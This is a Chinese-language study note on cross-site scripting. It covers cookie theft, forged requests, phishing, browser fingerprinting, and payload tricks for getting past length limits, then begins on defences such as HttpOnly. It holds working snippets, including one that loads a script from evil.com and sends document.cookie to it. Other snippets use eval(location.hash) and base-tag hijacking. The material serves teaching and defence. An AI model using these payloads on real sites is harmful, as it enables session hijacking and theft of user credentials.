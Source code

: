 # XSS
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表（Cascading Style Sheet, CSS）有所区别，所以在安全领域叫做“XSS”。



## Xss危害

### 1. 获取cookie

`    http://www.a.com/test.htm? abc="><script src=http://www.evil.com/evil.js ></script>`

```js
// evil.js
var img = document.createElement("img");
img.src = "http://www.evil.com/log? "+escape(document.cookie);
document.body.appendChild(img);
```

措施：

1. Set-Cookie时给关键Cookie植入HttpOnly标识

2. 把Cookie与客户端IP绑定，从而使得XSS窃取的Cookie失去意义

### 2. 构造GET、POST请求

正常删除该文章的链接是：`    http://blog.sohu.com/manage/entry.do? m=delete&id=156713012`

通过插入一张图片来发起一个GET请求，如果作者执行了该脚本则会删除文章，攻击者将通过XSS诱使用户执行XSS Payload

```js
var img = document.createElement("img");
img.src = "http://blog.sohu.com/manage/entry.do? m=delete&id=156713012";
document.body.appendChild(img);
```

POST同样，可以构造一个form表单提交或直接发送post请求

XSS攻击后，攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。**这在某些隔离环境中会非常有用，比如“Cookie劫持”失效时，或者目标用户的网络不能访问互联网等情况。**

### 3. XSS钓鱼

前面说XSS可构造GET、POST请求，考虑下面2种场景：

1. 在提交表单时要求用户输入验证码，那么一般的XSS Payload都会失效；

2. 在大多数“修改用户密码”的功能中，在提交新密码前，都会要求用户输入“Old Password”。而这个“Old Password”，对于攻击者来说，往往是不知道的。



绕过方案：

1. 对于验证码，XSS Payload可以通过读取页面内容，将验证码的图片URL发送到远程服务器上来实施——攻击者可以在远程XSS后台接收当前验证码，并将验证码的值返回给当前的XSS Payload，从而绕过验证码。
2. 为了窃取密码，攻击者可以将XSS与“钓鱼”相结合。伪造登录框，诱导用户输入用户名、密码

### 4. 识别用户浏览器

`    alert(navigator.userAgent);`

mac：'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'

ios：'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Mobile Safari/537.36'

根据浏览器支持的某些特性来更加具体地判断浏览器机器版本，利用浏览器漏洞实施其它攻击。

### 5. 识别用户安装的软件

在IE中，可以通过判断ActiveX控件的classid是否存在，来推测用户是否安装了该软件。这种方法很早就被用于“挂马攻击”——黑客通过判断用户安装的软件，选择对应的浏览器漏洞，最终达到植入木马的目的。

```
try {
var Obj = new ActiveXObject('XunLeiBHO.ThunderIEHelper');
} catch (e){
// 异常了，不存在该控件
}
```

### 6. CSS History Hack

css的visited属性——如果用户曾经访问过某个链接，那么这个链接的颜色会变得与众不同。见 `1 CSS history.html`

### 7. XSS蠕虫

XSS Worm是XSS的一种终极利用方式，它的破坏力和影响力是巨大的。但是发起XSS Worm攻击也有一定的条件。一般来说，用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起XSS Worm攻击。比如，发送站内信、用户留言等页面，都是XSS Worm的高发区，需要重点关注。而相对的，如果一个页面只能由用户个人查看，比如“用户个人资料设置”页面，因为缺乏用户之间互动的功能，所以即使存在XSS，也不能被用于XSS Worm的传播。

## XSS构造技巧

### 1. 绕过长度

如果后台对产生XSS的地方有变量的长度限制

`    <input type=text value="$var" />`

服务器端如果对输出变量“$var”做了严格的长度限制，那么攻击者可能会这样构造XSS：

`    $var为： "><script>alert(/xss/)</script>`

期望`    <input type=text value=""><script>alert(/xss/)</script>" />`

如果后台限制20个字符，则实际为`    $var输出为： "><script> alert(/xss`

连一个完整的函数都无法写完，XSS攻击可能无法成功。



换一个事件的写法：

`    $var输出为： "onclick=alert(1)//`

实际输出：`    <input type=text value="" onclick=alert(1)//"/>`

也可以通过简短的代码加载更多的外部脚本



另一个“藏代码”的地方是“location.hash”。而且根据HTTP协议，location.hash的内容不会在HTTP包中发送，所以服务器端的Web日志中并不会记录下location.hash里的内容，从而也更好地隐藏了黑客真实的意图。

`    $var输出为： " onclick="eval(location.hash.substr(1))`

`    <input type="text" value="" onclick="eval(location.hash.substr(1))" />`

url: `    http://www.a.com/test.html#alert(1)` 就会弹窗

location.hash本身没有长度限制，但是浏览器的地址栏是有长度限制的，不过这个长度已经足够写很长的XSS Payload了。要是地址栏的长度也不够用，还可以再使用加载远程JS的方法，来写更多的代码。



2个文本框绕过：

```html
<input id=1 type="text" value="" />
xxxxxxxxxxxxx
<input id=2 type="text" value="" />
```

2个输入框分别输入：

`    "><!--`    

`    --><script>alert(/xss/); </script>`

```html
<input id=1 type="text" value=""><!--" />
xxxxxxxxxxxxxxxxx
<input id=2 type="text" value="--><script>alert(/xss/); </script>" />
```

第一个输入框只有6个字符

### 2. 使用base标签

见demo：5 html base.html

`<base>标签将指定其后的标签默认从base标签的href取URL：`

`<base>`标签可以出现在页面的任何地方，并作用于位于该标签之后的所有标签。攻击者如果在页面中插入了<base>标签，就可以通过在远程服务器上伪造图片、链接或脚本，劫持当前页面中的所有使用“相对路径”的标签。

在设计XSS安全方案时，一定要过滤掉这个非常危险的标签。

### 3. Window.name

window对象是浏览器的窗体，而并非document对象，因此很多时候window对象不受同源策略的限制。攻击者利用这个对象，可以实现跨域、跨页面传递数据。

Demo: 6 window name

## XSS防御

### 1. Cookie httpOnly

浏览器将禁止页面的JavaScript访问带有HttpOnly属性的Cookie。

XSS攻击带来的不光是Cookie劫持问题，还有窃取用户信息、模拟用户身份执行操作等诸多严重的后果。如前文所述，攻击者利用AJAX构造HTTP请求，以用户身份完成的操作，就是在不知道用户Cookie的情况下进行的。使用HttpOnly有助于缓解XSS攻击，但仍然需要其他能够解决XSS漏洞的方案。

Demo : 7 http_conly.js

### 2. 输入检查
